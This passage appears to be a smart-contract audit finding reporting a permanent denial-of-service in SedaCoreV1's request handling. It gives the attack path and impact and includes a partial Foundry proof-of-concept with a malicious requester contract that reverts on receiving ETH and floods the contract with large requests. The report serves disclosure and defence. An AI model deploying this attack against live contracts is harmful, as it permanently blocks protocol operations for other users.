 ### Attack Path

1. A malicious contract creating 58 requests with large parameters
2. Malicious contract reverting on `receive` function
3. `getPendingRequests` function failing due to out-of-gas
4. `withdrawTimedOutRequest` function failing to clean up requests cause revert on receive `msg.value`
5. Same as 4 for `postResult` function
6. DoS condition forever

### Impact

This is a High severity since this attack creates a permanent DoS condition that:

1. Makes `getPendingRequests` function permanently unusable, breaking any protocol operations that depend on it. Even with having offset and limit parameters, the function will be unusable
2. Prevents cleanup of malicious requests even after timeout period by using `withdrawTimedOutRequest` or `postResult` with a valid proof.

### PoC

For demostrating this i just created a foundry test that shows the DoS correctly and the amount of gas spent by the attacker:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "../src/contracts/core/SedaCoreV1.sol";
import "../src/contracts/libraries/SedaDataTypes.sol";
import "@openzeppelin/contracts/utils/Strings.sol";
import "forge-std/StdUtils.sol";

// Malicious contract that creates requests but can't receive ETH
contract MaliciousRequester {
    SedaCoreV1 public sedaCore;
    bytes public largeInput;
    bytes public largeFilter;
    bytes32[] public requestIds;
    
    constructor(SedaCoreV1 _sedaCore, bytes memory _largeInput, bytes memory _largeFilter) {
        sedaCore = _sedaCore;
        largeInput = _largeInput;
        largeFilter = _largeFilter;
    }
    
    // Explicitly revert when receiving ETH to make withdrawTimedOutRequest fail
    receive() external payable {
        revert("Cannot receive ETH");
    }
    
    fallback() external payable {
        revert("Cannot receive ETH");
    }
    
    function createRequests(uint256 count) external payable {
        for (uint256 i = 0; i < count; i++) {
            string memory uniqueMemo = string.concat("Attack #", Strings.toString(i));
            
            SedaDataTypes.RequestInputs memory inputs = SedaDataTypes.RequestInputs({
                execProgramId: bytes32(uint256(i + 1)),
                execInputs: largeInput,
                execGasLimit: 8000000,
                tallyProgramId: bytes32(uint256(i + 100)),
```